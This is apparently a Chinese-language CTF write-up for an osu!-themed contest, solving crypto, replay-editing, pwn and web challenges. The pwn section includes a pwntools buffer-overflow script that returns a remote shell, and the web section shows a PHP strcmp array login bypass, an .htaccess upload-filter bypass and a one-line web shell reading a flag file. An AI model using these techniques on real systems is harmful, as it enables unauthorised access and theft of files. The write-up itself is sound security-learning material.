






~~GPT真好用（~~

# crypto

### rot727

> i rotated my flag 727 times! that's super secure right
> 
> 
> `aeg{at_imuf_nussqd_zgynqd_paqezf_yqmz_yadq_eqogdq}`
> 

> 我把我的 flag 转了 727 次！这绝对很安全
> 
> 
> `aeg{at_imuf_nussqd_zgynqd_paqezf_yqmz_yadq_eqogdq}`
> 

为凯撒密码题，放入解密器即可。

### **beyond-wood**

> spinning white floating glowing man in forest
> 

> 森林中旋转的白色漂浮发光人
> 

[crypto_beyond-wood.tar.gz](crypto_beyond-wood.tar.gz)

可以通过基于图片局部一致性（相邻的像素往往有接近的RGB值）的解密方法来解密。

```python
from PIL import Image

def modinv(a, m):
    try:
        return pow(a, -1, m)
    except ValueError:
        def egcd(a, b):
            if b == 0:
                return (a, 1, 0)
            g, x1, y1 = egcd(b, a % b)
            return (g, y1, x1 - (a // b) * y1)
        g, x, _ = egcd(a, m)
        if g != 1:
            raise ValueError(f"no modular inverse for {a} mod {m}")
        return x % m

def inverse_permute_and_place(img):
    width, height = img.size
    inv_w = modinv(727, width)
    inv_h = modinv(727, height)

    mode = img.mode

    enc = [ [ None for _ in range(height) ] for __ in range(width) ]

    px = img.load()
    for newi in range(width):
        for newj in range(height):
            pix = px[newi, newj]
            orig_i = ((newi - 2134266) * inv_w) % width
            orig_j = ((newj - 4501511) * inv_h) % height
            enc[orig_i][orig_j] = pix

    return enc, mode

def estimate_key_by_variation(enc, width, height, channels, samples=5000):
    import random as _r
    ch_arrays = [ [ [0]*height for _ in range(width) ] for __ in range(channels) ]
    for i in range(width):
        for j in range(height):
            p = enc[i][j]
            if channels == 1:
                ch_arrays[0][i][j] = p
            else:
                for c in range(channels):
                    ch_arrays[c][i][j] = p[c]

    total_pixels = width * height
    sample_count = min(samples, total_pixels)
    idxs = _r.sample(range(total_pixels), sample_count)
    coords = [ (idx % width, idx // width) for idx in idxs ]

    best_key = [0] * channels
    for c in range(channels):
        best_k = None
        best_score = None
        arr = ch_arrays[c]
        for k in range(256):
            score = 0
            for (x, y) in coords:
                v = arr[x][y] ^ k
                # 右相邻
                if x + 1 < width:
                    vr = arr[x+1][y] ^ k
                    score += abs(v - vr)
                # 下方相邻
                if y + 1 < height:
                    vb = arr[x][y+1] ^ k
                    score += abs(v - vb)
            if best_score is None or score < best_score:
                best_score = score
                best_k = k
        best_key[c] = best_k
        print(f"channel {c}: best key byte = {best_k} (score {best_score})")

    return tuple(best_key)

def reconstruct(enc, key):
    width = len(enc)
    height = len(enc[0])
    channels = len(enc[0][0]) if hasattr(enc[0][0], '__len__') else 1
    from PIL import Image
    mode = 'RGB' if channels >= 3 else 'L'
    out = Image.new(mode, (width, height))
    out_px = out.load()
    for i in range(width):
        for j in range(height):
            p = enc[i][j]
            if channels == 1:
                v = p ^ key[0]
                out_px[i, j] = v
            else:
                newp = tuple((p[c] ^ key[c]) for c in range(len(key)))
                if hasattr(p, '__len__') and len(p) > len(key):
                    newp = newp + tuple(p[len(key):])
                out_px[i, j] = newp
    return out

def main(input_path='output.png', output_path='recovered.png'):
    print(f"加载 {input_path}...")
    img = Image.open(input_path).convert('RGBA') if True else Image.open(input_path)
    width, height = img.size
    enc, mode = inverse_permute_and_place(img)
    # detect channels
    sample_pix = enc[0][0]
    channels = len(sample_pix) if hasattr(sample_pix, '__len__') else 1
    print(f"尺寸： {width}x{height}, 通道数: {channels}")

    print("通过最小化局部变化（采样）来估计密钥字节...")
    key = estimate_key_by_variation(enc, width, height, channels, samples=8000)
    print("估计的密钥:", key)

    print("使用估计的密钥重建图像...")
    recovered = reconstruct(enc, key)
    recovered.save(output_path)
    print(f"已保存恢复的图像到 {output_path}")

if __name__ == '__main__':
    main()

```

解密后的图片：


### xnor-xnor-xnor

> https://osu.ppy.sh/beatmapsets/1236927#osu/2573164
> 

[crypto_xnor-xnor-xnor.tar.gz](crypto_xnor-xnor-xnor.tar.gz)

已知 flag 前面的字符为 `osu{`，可以进行已知明文解密。

```python
def xnor_gate(a, b):
    return 1 if a == b else 0

def str_to_bits(s):
    bits = []
    for x in s:
        bits += [(x >> i) & 1 for i in range(8)][::-1]
    return bits

def bits_to_str(bits):
    return bytes([sum(x * 2 ** j for j, x in enumerate(bits[i:i+8][::-1])) for i in range(0, len(bits), 8)])

def xnor(pt_bits, key_bits):
    return [xnor_gate(pt_bit, key_bit) for pt_bit, key_bit in zip(pt_bits, key_bits)]

enc_hex = "7e5fa0f2731fb9b9671fb1d62254b6e5645fe4ff2273b8f04e4ee6e5215ae6ed6c"
enc_bytes = bytes.fromhex(enc_hex)
enc_bits = str_to_bits(enc_bytes)

known_plain = b"osu{"
plain_bits = str_to_bits(known_plain)
cipher_bits = str_to_bits(enc_bytes[:4])  # 前4字节密文

# key_bits = plain_bits XNOR cipher_bits
key_bits = xnor(plain_bits, cipher_bits)

# 取前 32 位作为密钥
key_bits_32 = key_bits[:32]
key_bytes = bits_to_str(key_bits_32)

print("Recovered key bytes:", key_bytes.hex())

# 用这个密钥解密全部
repeated_key = key_bytes * (1 + len(enc_bytes) // 4)
repeated_key_bits = str_to_bits(repeated_key)

dec_bits = xnor(enc_bits, repeated_key_bits)
flag = bits_to_str(dec_bits)
print("Flag:", flag.decode())

```

# kaijuu

### sanity-check
> Find my latest mapset on osu! and start from there :)
>
> Note: Flag is **case-sensitive** and it can be properly figured out by opening the map in-game.

> 在osu!上找到我最新的谱面，然后从那里开始吧 :)
> 
> 注意：Flag**区分大小写**，通过在游戏中打开谱面可以正确找到它。

根据提示找到 [sahuang 的 osu! 主页](https://osu.ppy.sh/users/5318910)

下载该谱面，在osu中打开编辑界面。

即可找到正确大小写的 flag。

### ss-me
> Can you SS APPEND? Do not use Auto to cheat...
>
> Note: No Mod only. Do not add any modes.

> 你能 SS 通过 APPEND 难度吗？别想用 Auto 作弊哦...
>
> 注意：仅限无 Mod。请勿添加任何其他 Mod。

`nc ss-me.challs.sekai.team 1337`

~~也许技术足够强大就可以不需要用投机取巧的方式即可获取 flag（~~

::github{repo="thebetioplane/osuReplayEditorV3"}
该项目可以编辑 osu 的回放文件，需要使用 stable 版本。
在 osu!stable 中使用 Auto 游玩该谱面 APPEND 难度，在结算界面按下 F2，即可导出回放文件。

打开回放编辑器并加载此回放文件，点击 `Replay Metadata`，将 Autoplay 的勾去掉，修改玩家名，随后应用并导出。

随后将此文件编码为 base64，提交给靶机即可获取 flag。

# pwn

### username-checker

> Having trouble finding the perfect osu! username?
> 
> 
> Check whether your usernames are valid using `username-checker`!
> 

> 找不到合适的 osu! 用户名？
> 
> 
> 使用 `username-checker` 检查您的用户名是否有效！
> 

[pwn_username-checker.tar.gz](pwn_username-checker.tar.gz)

使用 IDA 打开 `checker`，



发现目标函数 `win`和可能的缓冲区溢出，由于有长度限制，故无法使用 `super_secret_username`跳转到 `win`函数。

缓冲区 `s`起始为 `rbp - 0x40` (64字节)，saved rbp 为 8 (x86_64)，偏移量为 `64 + 8 = 72`。

编写攻击脚本：

```python
from pwn import *

context(os='linux', arch='amd64', log_level='info')

binary = "./checker"
elf = ELF(binary)

offset = 72

rop = ROP(elf)

# 寻找ret指令（用于栈对齐）
ret = rop.find_gadget(['ret'])[0]
# 寻找win函数地址
win = elf.symbols['win']

log.info(f"Ret gadget: {hex(ret)}")
log.info(f"Win function: {hex(win)}")

payload = b"A" * offset + p64(ret) + p64(win)

p = remote("username-checker.challs.sekai.team", 1337)
p.sendline(payload)
p.interactive()
```

获取到shell后， `ls`命令可查看到 `flag.txt`，使用 `cat flag.txt`命令即可。

# web

### admin-panel

> we found the secret osu! admin panel!!
> 
> 
> can you find a way to log in and read the flag?
> 

> 我们找到了隐藏的 osu! 管理面板！！
> 
> 
> 你能找到登录并读取 flag 的方法吗？
> 

[web_admin-panel.tar.gz](web_admin-panel.tar.gz)

分析 `login.php`:



可看见基于 `strcmp()`函数的密码验证，该段代码有一个漏洞，具体为：

- `strcmp("string", "string")` → 返回 `0`（相等）
- `strcmp("string", array())` → 返回 `NULL`
- `NULL == 0` 在PHP中为 `true`（漏洞暴露点）

该处漏洞暴露点使用了双等号 `==` 进行比较，即*弱比较*。
因此需要将传入的 `password`设为数组类型，即可通过验证。



使用 HackBar 等工具构造请求，虽然返回了2行warning，但事实上已经成功登录到管理员。

访问 `admin.php` ，可以上传文件了，分析代码：


可知服务端不允许扩展名为 `.php`的文件以及文件内容包含 `<?php`的文件。


服务器使用了 Apache HTTP Server，这个软件可以通过名为 `.htaccess`的配置文件来管理特定目录的访问规则和行为。为绕过服务端限制，可以让其它扩展名的文件解析为php。

创建一个名为 `.htaccess`的文件写入以下内容：

```
AddType application/x-httpd-php .test
```

它的作用是把 `.test`扩展名的文件当作php文件解析。

上传后报错 403，但无关紧要。

再创建一个 `shell.test`文件，写入以下内容：

```php
<? system("cat /flag.txt"); ?>
```

上传后获得 flag 内容。
